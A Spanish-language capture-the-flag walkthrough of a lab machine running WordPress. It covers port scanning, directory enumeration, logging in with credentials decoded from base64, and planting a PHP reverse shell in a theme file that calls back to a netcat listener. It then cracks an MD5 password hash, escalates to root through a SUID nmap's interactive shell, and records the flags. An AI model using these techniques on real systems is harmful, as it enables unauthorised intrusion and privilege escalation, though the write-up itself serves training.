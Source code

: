 # Reconocimiento 
--- 
A primera vista esta maquina no nos da mucha información **visible** en la web, ya os aviso que no tenemos que hacer nada en la web ,sino que vamos a juanquear internamente

![Image]1foto.png(https://github.com/shell-bomb/CTFs/blob/main/Imagenes/1foto.png)

## NMAP
Si realizamos un nmap basico a esta maquina observamos que nos da **3** puertos, Puerto FTP, puerto HTTP y HTTPS
 ~~~~bash
nmap -sV 10.10.92.13  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-15 14:54 GMT
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 14:55 (0:00:00 remaining)
Nmap scan report for 10.10.92.13
Host is up (0.068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
~~~~

No nos arroja mucha información importante, vamos a realizar un scanner de directorios usando 
dirsearch.py y obtenemos esto:

## Dirsearch 
~~~~bash
python3 dirsearch.py -u https://10.10.92.13  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.3                                             
 (_||| _) (/_(_|| (_| )                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 220545

Output File: /home/bardock/repos/dirsearch/reports/https_10.10.92.13/_22-11-15_15-00-19.txt

Target: https://10.10.92.13/

[15:00:19] Starting:                                                         
[15:00:21] 301 -  235B  - /images  ->  https://10.10.92.13/images/
[15:00:21] 200 -    0B  - /sitemap                                          
[15:00:22] 301 -  233B  - /blog  ->  https://10.10.92.13/blog/              
[15:00:22] 301 -    0B  - /rss  ->  https://10.10.92.13/feed/               
[15:00:22] 302 -    0B  - /login  ->  https://10.10.92.13/wp-login.php      
[15:00:23] 301 -  234B  - /video  ->  https://10.10.92.13/video/            
[15:00:23] 301 -    0B  - /feed  ->  https://10.10.92.13/feed/              
[15:00:23] 301 -    0B  - /0  ->  https://10.10.92.13/0/
[15:00:24] 301 -    0B  - /image  ->  https://10.10.92.13/image/            
[15:00:24] 301 -    0B  - /atom  ->  https://10.10.92.13/feed/atom/         
[15:00:25] 301 -  239B  - /wp-content  ->  https://10.10.92.13/wp-content/  
[15:00:26] 301 -  234B  - /admin  ->  https://10.10.92.13/admin/            
[15:00:27] 301 -  234B  - /audio  ->  https://10.10.92.13/audio/            
[15:00:28] 200 -  504KB - /intro                                            
[15:00:30] 200 -    1KB - /wp-login                                         
[15:00:31] 301 -  232B  - /css  ->  https://10.10.92.13/css/                
[15:00:31] 301 -    0B  - /rss2  ->  https://10.10.92.13/feed/              
[15:00:34] 200 -  158B  - /license                                          
CTRL+C detected: Pausing threads, please wait...
[q]uit / [c]ontinue: q
[q]uit / [c]ontinue: q
[s]ave / [q]uit without saving: q
 
Canceled by the user
~~~~

De directorios interesantes encontramos:
- `/license`
- `/wp-content`
- `/wp-login`
- `/robots.txt`

# 1º Flag
----
Examinamos el fichero `/robots.txt` y encontramos una ruta a la 1º flag
![Pasted image 20221115164902.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115164902.png)

---
![Pasted image 20221115165022.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115165022.png)

1º Flag = 073403c8a58a1f80d943455fb30724b9

## Explotacion 1.0

Examinamos el directorio /license y encontramos algo interesante
![Pasted image 20221115160421.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115160421.png)
# Explotación 2.0
---
Encontramos un codigo "cifrado" en base 64 que cuando desciframos obtenemos que las credenciales del usuario son:

![Pasted image 20221115160802.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115160802.png)

1. elliot
2. ER28-0652
Asi que regresamos al panel de login de wordpress e introducimos las claves que nos han dado y....

ENTRAMOS!!!

![Pasted image 20221115161354.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115161354.png)

## Explotación wordpress via PHP-revershe shell

Resulta que en la versión de wordpress (4.1.2) es vulnerable a una subida de reverse shell en un tema de PHP.
Usando la plantilla de reverse shell de [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) Tenemos que suplantar la plantilla y poner esa shell cambiando la variable **IP** y la variable **PORT**  que apuntan a nuestra reverse shell
~~~~bash
nc -lvnp 4444       
listening on [any] 4444 ...
~~~~
En mi caso mi puerto es 4444 y mi IP es XX.XX.XX.XX (poned la IP de tun0 VPN)



![Pasted image 20221115170810.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115170810.png)
Actualizamos el archivo y seguidamente para activar la reverse shell tenemos que apuntar directamente a la palntilla, apuntando a la URL http://10.10.92.13/wp-content/themes/twentyfifteen/404.php para que el php ejecute el codigo de dentro.

~~~bash
nc -lvnp 4444       
listening on [any] 4444 ...
connect to [XX.XX.XX.XX] from (UNKNOWN) [XX.XX.XX.XX] 54519
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 16:19:58 up  1:29,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
BAM! Tenemos shell

![Pasted image 20221115172126.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115172126.png)

# Explotación, Flag2 y 3
---

Siempre me gusta usar python, asi que vamos a usar una shell interactiva con python `python -c 'import pty; pty.spawn("/bin/bash")'`  y tenemos shell!!! pero aun no tenemos usuario ROOT con lo que eFazo.
No tenemos permisos para ejecutar ni hacer nada, pero en la carpeta del usuario hay un MD5 con la contraseña del usuario 
~~~~bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
~~~~

Introducimos el hash MD5 en internet y nos aparece

![Pasted image 20221115173155.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115173155.png)

En resumen: 
- User: robot
- Pass: abcdefghijklmnopqrstuvwxyz
Realizamos un SU robot para tener permisos SUDO, ahora si que podemos hacer un cat de la flag

![Pasted image 20221115173835.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115173835.png)

# Privesc y Flag3

Para escalar privilegios primero miramos que comandos y tools podemos ejecutar, mediante este comando

~~~~bash
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null    
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
~~~~
Y podemos ejecutar el comando nmap!!!


Para escalar privilegios tenemos que tirar de NMAP, ya que la versión 3.81

~~~~bash
robot@linux:~$ nmap -v
nmap -v

Starting nmap 3.81 ( http://www.insecure.org/nmap/ ) at 2022-11-15 16:39 UTC
No target machines/networks specified!
QUITTING!
~~~~

Hay una vulnerabilidad en la version de Nmap qeu nos permite generar una sesion de sh asi que 
ejecutando el comando `nmap --interactive` seguido de `!sh` para generarnos el entorno
Cambiamos al directorio `/root`

![Pasted image 20221115175025.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115175025.png)

Y ya tenemos la FLAG!!!
Espero que os haya gustado este primer post, teneis por aqui mis redes sociales.
[Linkedin](https://www.linkedin.com/in/marco-carrasco-talan-6b5912198/)
[Github](https://github.com/shell-bomb)
[Youtube](https://www.youtube.com/channel/UCTgM3LdJZjpEpilLJB3piCA)
[Twitter](https://twitter.com/D0vahking)
[Discord](https://discord.gg/UXzFV3Dj8p)



